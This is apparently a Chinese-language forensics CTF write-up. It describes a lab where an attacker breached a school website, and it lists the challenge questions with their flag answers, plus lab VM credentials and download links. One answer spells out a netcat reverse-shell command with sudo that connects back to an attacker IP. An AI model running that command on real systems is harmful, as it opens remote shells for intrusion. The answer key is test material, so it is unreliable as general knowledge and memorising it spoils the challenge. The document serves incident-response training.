

## 前言

搭建并模拟一些基础漏洞出现，以防御者视角去找出问题，并尝试修复，也可以以攻击者角度进行攻击，代码改动，服务测试等，此程序未对外界造成影响，不足之处希望多多批评指正

## 故事情节

```
杰克是某小学的网站开发者，同时也是运维人员
在某天，某攻击者通过旁站，成功攻击进入系统并留下后门
好在，杰克在系统中抓取了全程流量包，请你帮忙分析一下攻击者做了哪些操作
PS:本题目有CTF成分
```

## 镜像信息

```
系统：ubuntu-22.10-desktop-amd64
Linux账号密码：security/P@ssw0rd
mysql账号密码：root/password
镜像扩展名：.OVF
PS:镜像文件可能较大，保证内存空间足够
```


下载地址：

- https://cloud.189.cn/t/zQvEfiZvIBb2 （访问码：4ddz）
-  https://pan.baidu.com/s/1g21D-IYm4Bk3cNSPyZntXA 提取码: 28jy 


## 题目

PS:杰克创建在流量包(result.pcap)在根目录下，请根据已有信息进行分析

攻击者使用的端口扫描工具是?

通过流量及日志审计，攻击者上传shell的时访问web使用IP地址是多少?

审计流量日志，攻击者反弹shell的地址及端口?

攻击者使用的提权方式及工具是什么?

攻击者创建的新用户名是?

攻击者将shell删除并放到了其他web目录，文件名被改变了，找出他的绝对路径及文件名

攻击者使用新用户留下了木马进行不法行为，找出程序名,给出程序的绝对路径

## 挑战开始

### 1.攻击者使用的端口扫描工具是?

> flag{nmap}


### 2.通过流量及日志审计，攻击者上传shell的时访问web使用IP地址是多少?

> flag{192.168.150.1}


### 3.审计流量日志，攻击者反弹shell的地址及端口?

> flag{192.168.150.2:4444}


### 4.攻击者使用的提权方式及工具是什么?

> flag{sudo nc -e /bin/bash 192.168.150.2 8888}


### 5.攻击者创建的新用户名是?

> flag{securityy}


### 6.攻击者将shell删除并放到了其他web目录，文件名被改变了，找出他的绝对路径及文件名

> falg{/var/www/blog/.ShEllHAha/.hackba.php}


### 7.攻击者使用新用户留下了木马进行不法行为，找出程序名,给出程序的绝对路径

> falg{/opt/.Qwert/.Wakuang.sh}



